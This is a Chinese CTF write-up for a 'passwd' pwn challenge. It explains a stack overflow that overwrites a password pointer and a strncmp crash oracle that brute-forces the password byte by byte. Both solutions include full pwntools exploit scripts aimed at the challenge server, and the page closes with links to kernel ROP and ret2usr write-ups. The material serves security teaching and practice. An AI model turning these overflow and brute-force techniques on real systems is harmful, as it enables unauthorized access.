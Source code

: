 # pwn

## Passwd（简单的栈溢出，有两种思路可以利用）

### 解题思路一

> 文件读取结束后，相关的缓冲区数据会被清空吗? 不会吧，不会吧

(直接拿郭子仪同学的wp放上来了)

首先nop掉反调试, 恢复结构体   

![struct](assert/struct.png)

其中passwd指向我们读入的数据。
然后函数名字也rename一下。

![fun](assert/fun.png)

然后看一下这个程序实际上在读取的时候可以将name溢出到passwd来修改passwd指针。

![vul](assert/vul.png)

程序使用fopen读取真正的密码，而文件读取结束后相关缓冲区的并不会被清空。所以直接覆盖passwd指针到缓冲区即可。不过要稍微爆破一下。（一开始想复杂了，准备对着mmap一通操作，打freehook）。脚本其实不难，一开始确实想偏了。

### 最终结果

![res](assert/res.png)

### exp

``` python
# encoding=UTF-8
from pwn import *

context.terminal='/bin/zsh'
context.arch = "amd64"
context.log_level = "debug"
elf_path = "./passwd"
elf = ELF(elf_path)
libc = ELF("./libc-2.23.so")
ip = "www.povcfe.site"
port = 10001
#io = remote(ip, port)
#io = process(elf_path)

def input_name(buf):
    io.sendlineafter("Name:", buf)

def input_size(size):
    io.sendlineafter("Length Of New Passwd:", str(size))

def input_passwd(buf):
    io.sendlineafter("Passwd:", buf)

yes = "yes"
no = "no"
def yes_no(s):
    io.sendlineafter("yes/no?:", s)

sw = "1"
ac = "2"
def choice(c):
    io.sendlineafter("[2]:Start A New Article", c)


def input_ac(buf):
    io.sendlineafter("Article(end with '#'):", buf)

while 1:
    #io = remote(ip, port)
    
    io = process(elf_path)
    input_name("abcd")
    input_size(24)
    input_passwd("123456")
    choice(sw)
    yes_no(yes)
    
    buf = "admin"
    buf += "\x00"*0xb   # 填充至name结束，16个
    buf += "\xa0\xd2"   # 开始覆盖passwd指针的低位
    input_name(buf)
    # pause()
    # attach(io)
    buf = "a"*0x14
    input_passwd(buf)
    pause()
    attach(io)

    io.interactive()
```

**郭子仪同学一开始陷入误区的原因是认为mmap基地址与libc基地址偏移固定，其实两者的偏移在不同系统上有可能是不同的。换个思路，因为mmap与libc之间一定是以0x1000为基础进行偏移的，所以在这里可以适度爆破mmap与libc之间的固定偏移，那么这题也是可以做出来的**

### 解题思路二

> 考虑一下strncmp函数是怎么判断字符串相等的?

#### 前置知识

strncmp(str1, str2, n) 的实现原理，是通过逐字节比对直至n字节全部比对完毕，中间如果发现某字节不同，则函数返回。所以，假设str1[0]存储于合法地址，但是str1[1]存储于非法地址(无读取权限的地址)，那么如果在比对第一个字节时，str1与str2不同则正常函数返回，反之如果第一个字节相同，函数继续执行并读取第二个字节(str[1]存储于非法地址)，则程序异常退出。

#### 解体思路

通过溢出可以控制passwd指向的地址，并且程序中存在由mmap开辟的固定内存块0x600000000000-0x600000004000，所以如果把passwd指向0x600000004000-1，那么根据程序的返回状态就可以判断第一个字节是否正确，根据这个方法可以把passwd逐字节爆破

#### exp

``` python
from pwn import *
import time
import sys

# sh = process("./passwd")
# ip = sys.argv[1]
#sh = remote("172.16.202.302", 8888)
sh = remote("geekgame.scuctf.com", 10001)
# context.log_level = "debug"

def login(name, passwd_len, passwd):
    sh.recvuntil("[+] Input Your Name:\n")
    sh.sendline(name)
    if(name == "admin"):
        sh.recvuntil("[+] Input Admin Passwd:")
        sh.sendline(passwd)
    else:
        sh.recvuntil("[+] Please Input The Length Of New Passwd:\n")
        sh.sendline(str(passwd_len))
        sh.recvuntil("[+] Input The New Passwd:\n")
        sh.sendline(passwd)


def switch_account(name, passwd):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("1")
    sh.recvuntil("[+] Are You Sure To Switch Account? yes/no?:\n")
    sh.sendline("yes")
    sh.recvuntil("[+] Input The New Name:\n")
    sh.sendline(name)
    sh.recvuntil("[+] Input The Passwd:\n")
    sh.sendline(passwd)


def new_article(context):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("2")
    sh.recvuntil("[+] Input The Content Of Article(end with '#'):\n")
    sh.sendline(context)


passwd = b""
num = 0
addr = 0x600000004000

ppp = 0

while(num < 19):
    login(b"povcfe", 22, b"aaa")
    new_article(b"aaaa#")
    addr = addr - 1
    payload = b"admin" + b"a"*11 + p64(addr)
    while(1):
        ppp = ppp+1
        for i in range(0x20, 0x80):
            try:
                try_passwd = passwd + chr(i).encode()
                switch_account(payload, try_passwd)

            except:
                num = num + 1
                passwd = passwd + chr(i-1).encode()
                log.success("one byte is: " + chr(i-1))
                break

        # sh = process("./passwd")
        sh.close()
        # sh = remote("172.16.202.132", 8888)
        sh = remote("geekgame.scuctf.com", 10001)
        break

login(b"povcfe", 22, b"aaa")
new_article("bbb#")

log.success(str(ppp))
addr = 0x600000000000
while(1):
    payload = b"admin" + b"a"*11 + p64(addr)
    for i in range(0x20, 0x80):

        try_passwd = passwd + chr(i).encode()
        log.success(b"try passwd is: " + try_passwd)
        switch_account(payload, try_passwd)
        time.sleep(1)
        sh.sendline(b"echo bll")
        res = sh.recvline()
        if b"bll" in res:
            sh.interactive()
            log.success("over")
            break
    log.success(b"passwd is: " + try_passwd)
break
```

## Kernel_rop（简单的内核栈溢出）

+ 一．Hint中给出学习内核基础知识的链接，同时hint3直接给出解题的详细步骤，只隐藏ROP构造部分，现已补全[经典ROP](https://www.povcfe.site/2020/05/16/kernel-rop/#more)

+ 二．内核栈溢出除了hint给出的经典ROP利用，还可以使用ret2usr的利用方法(这个方法在hint3所给链接的隔壁，我专门把那篇文章放在了博客首行，并且给出了exp，编译之后直接运行就可以提权orz，竟然没人发现) [ret2usr](https://www.povcfe.site/2020/05/17/kernel-ret2usr/#more)